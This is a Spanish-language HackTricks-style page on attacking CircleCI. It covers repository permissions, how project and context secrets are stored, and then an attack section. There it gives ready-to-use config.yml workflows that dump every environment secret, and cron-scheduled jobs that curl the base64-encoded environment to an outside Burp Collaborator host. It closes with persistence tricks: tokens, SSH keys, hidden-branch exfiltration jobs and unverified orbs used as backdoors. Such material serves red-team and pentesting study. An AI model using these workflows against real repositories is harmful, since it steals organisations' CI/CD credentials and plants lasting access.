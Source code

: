 # Seguridad de CircleCI

<details>

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Información Básica

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) es una plataforma de Integración Continua donde puedes **definir plantillas** indicando qué deseas que haga con cierto código y cuándo hacerlo. De esta manera puedes **automatizar pruebas** o **despliegues** directamente **desde la rama principal de tu repositorio**, por ejemplo.

## Permisos

**CircleCI** **hereda los permisos** de github y bitbucket relacionados con la **cuenta** que inicia sesión.\
En mis pruebas verifiqué que mientras tengas **permisos de escritura sobre el repositorio en github**, podrás **administrar la configuración de su proyecto en CircleCI** (establecer nuevas claves ssh, obtener claves api del proyecto, crear nuevas ramas con nuevas configuraciones de CircleCI...).

Sin embargo, necesitas ser un **administrador del repositorio** para **convertir el repositorio en un proyecto de CircleCI**.

## Variables de Entorno y Secretos

Según [**la documentación**](https://circleci.com/docs/2.0/env-vars/) existen diferentes formas de **cargar valores en variables de entorno** dentro de un flujo de trabajo.

### Variables de entorno integradas

Cada contenedor ejecutado por CircleCI siempre tendrá [**variables de entorno específicas definidas en la documentación**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) como `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` o `CIRCLE_USERNAME`.

### Texto claro

Puedes declararlas en texto claro dentro de un **comando**:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Puedes declararlos en texto claro dentro del **entorno de ejecución**:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Puedes declararlos en texto claro dentro del **entorno del trabajo de construcción**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Puedes declararlos en texto claro dentro del **entorno de un contenedor**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Secretos del Proyecto

Estos son **secretos** que solo van a ser **accesibles** por el **proyecto** (por **cualquier rama**).\
Puedes verlos **declarados en** _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
La funcionalidad de "**Importar Variables**" permite **importar variables de otros proyectos** a este.
{% endhint %}

### Secretos de Contexto

Estos son secretos que son **de toda la organización**. Por **defecto, cualquier repositorio** podrá **acceder a cualquier secreto** almacenado aquí:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Sin embargo, ten en cuenta que se puede **seleccionar un grupo diferente** (en lugar de Todos los miembros) para **dar acceso solo a personas específicas** a los secretos.\
Actualmente, esta es una de las mejores formas de **aumentar la seguridad de los secretos**, para no permitir que todos accedan a ellos, sino solo algunas personas.
{% endhint %}

## Ataques

### Buscar Secretos en Texto Claro

Si tienes **acceso al VCS** (como github) verifica el archivo `.circleci/config.yml` de **cada repositorio en cada rama** y **busca** posibles **secretos en texto claro** almacenados allí.

### Enumeración de Variables de Entorno Secretas y de Contexto

Revisando el código puedes encontrar **todos los nombres de los secretos** que se están **utilizando** en cada archivo `.circleci/config.yml`. También puedes obtener los **nombres de contexto** de esos archivos o verificarlos en la consola web: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### Exfiltrar Secretos del Proyecto

{% hint style="warning" %}
Para **exfiltrar TODOS** los secretos del proyecto y del contexto solo necesitas tener acceso de **ESCRITURA** a **solo 1 repositorio** en toda la organización de github (_y tu cuenta debe tener acceso a los contextos, pero por defecto todos pueden acceder a cada contexto_).
{% endhint %}

{% hint style="danger" %}
La funcionalidad de "**Importar Variables**" permite **importar variables de otros proyectos** a este. Por lo tanto, un atacante podría **importar todas las variables del proyecto de todos los repositorios** y luego **exfiltrarlas todas juntas**.
{% endhint %}

Todos los secretos del proyecto siempre se establecen en el entorno de los trabajos, por lo que simplemente llamando a env y ofuscándolo en base64 exfiltrará los secretos en la **consola de registro web de los flujos de trabajo**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Si **no tienes acceso a la consola web** pero tienes **acceso al repositorio** y sabes que se utiliza CircleCI, simplemente puedes **crear un flujo de trabajo** que se **active cada minuto** y que **extraiga los secretos a una dirección externa**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Filtrar Secretos de Contexto

Necesitas **especificar el nombre del contexto** (esto también filtrará los secretos del proyecto):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Si **no tienes acceso a la consola web** pero tienes **acceso al repositorio** y sabes que se utiliza CircleCI, simplemente puedes **modificar un flujo de trabajo** que se **ejecuta cada minuto** y que **extrae los secretos a una dirección externa**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Simplemente crear un nuevo `.circleci/config.yml` en un repositorio **no es suficiente para activar una compilación de CircleCI**. Necesitas **habilitarlo como un proyecto en la consola de CircleCI**.
{% endhint %}

### Escape to Cloud

**CircleCI** te da la opción de ejecutar **tus compilaciones en sus máquinas o en las tuyas**.\
Por defecto, sus máquinas están ubicadas en GCP, y inicialmente no podrás encontrar nada relevante. Sin embargo, si una víctima está ejecutando las tareas en **sus propias máquinas (potencialmente, en un entorno en la nube)**, podrías encontrar un **punto final de metadatos en la nube con información interesante**.

Ten en cuenta que en los ejemplos anteriores todo se lanzó dentro de un contenedor de Docker, pero también puedes **solicitar lanzar una máquina virtual** (que puede tener permisos en la nube diferentes):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
O incluso un contenedor de Docker con acceso a un servicio de Docker remoto:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Persistencia

* Es posible **crear tokens de usuario en CircleCI** para acceder a los puntos finales de la API con los permisos de usuario.
* _https://app.circleci.com/settings/user/tokens_
* Es posible **crear tokens de proyectos** para acceder al proyecto con los permisos otorgados al token.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* Es posible **agregar claves SSH** a los proyectos.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* Es posible **crear un trabajo cron en una rama oculta** en un proyecto inesperado que está **filtrando** todas las variables de entorno de **contexto** todos los días.
* O incluso crear en una rama / modificar un trabajo conocido que **filtre** todo el contexto y los **secretos de proyectos** todos los días.
* Si eres propietario de GitHub, puedes **permitir orbs no verificados** y configurar uno en un trabajo como **puerta trasera**.
* Puedes encontrar una **vulnerabilidad de inyección de comandos** en alguna tarea e **inyectar comandos** a través de un **secreto** modificando su valor.
